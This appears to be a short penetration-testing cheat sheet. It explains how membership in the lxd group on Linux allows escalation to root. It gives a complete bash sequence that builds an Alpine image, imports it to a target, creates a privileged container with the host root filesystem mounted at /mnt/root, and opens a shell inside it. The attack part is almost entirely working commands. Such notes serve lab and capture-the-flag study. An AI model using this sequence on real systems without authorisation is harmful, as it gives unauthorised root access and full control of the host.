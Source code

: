 check with id if user is in lxd group

lxc or lxd is lightweight virtualization/container like docker.
So like docker it can be used to escalate privilege to root by mounting the root filesystem


```bash
### clone lightweight linux image(alpine)
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine

#transfer the tar to the target
#with any method(scp, netcat, http server)

### import the image to lxc
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage

lxc image list

###set the privilege and mount root
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

### start and check the id
lxc start ignite
lxc exec ignite /bin/sh
id
```